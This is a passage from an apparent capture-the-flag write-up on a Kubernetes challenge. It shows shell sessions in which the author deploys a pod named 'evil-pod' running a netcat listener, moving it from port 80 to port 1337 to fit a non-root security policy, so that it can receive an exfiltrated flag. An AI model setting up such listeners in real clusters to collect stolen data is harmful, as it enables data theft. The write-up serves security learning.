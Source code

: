   ```shell
        cpu: "200m"
    securityContext:
      allowPrivilegeEscalation: false
      runAsNonRoot: true
      runAsUser: 1000 
      capabilities:
        drop:
        - ALL
      seccompProfile:
        type: RuntimeDefault

rayanlecat@potluck2023 /workspace # kubectl apply -f pod.yml --namespace=flag-reciever
pod/evil-pod created

rayanlecat@potluck2023 /workspace # kubectl logs -f evil-pod --namespace=flag-reciever
nc: bind: Permission denied
```

The problem here is that when deploying our pod, we have to respect their security policy and therefore not launch our container as root, which means we can't listen on port 80 as it's a privileged port. To overcome this, we can listen on an unprivileged port:

```shell
rayanlecat@potluck2023 /workspace # cat pod.yml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  namespace: flag-reciever
spec:
  containers:
  - name: evil-container
    image: busybox
    ports:
      - containerPort: 1337
    args: ["sh", "-c", "while true; do nc -l -v -p 1337; done"]
    resources:
      requests:
        memory: "50M"
        cpu: "50m"
      limits:
        memory: "100M"
        cpu: "200m"
    securityContext:
      allowPrivilegeEscalation: false
      runAsNonRoot: true
      runAsUser: 1000 
      capabilities:
        drop:
        - ALL
      seccompProfile:
        type: RuntimeDefault

rayanlecat@potluck2023 /workspace # kubectl apply -f pod.yml --namespace=flag-reciever
pod/evil-pod created

rayanlecat@potluck2023 /workspace # kubectl logs -f evil-pod --namespace=flag-reciever
listening on [::]:1337 ...
```
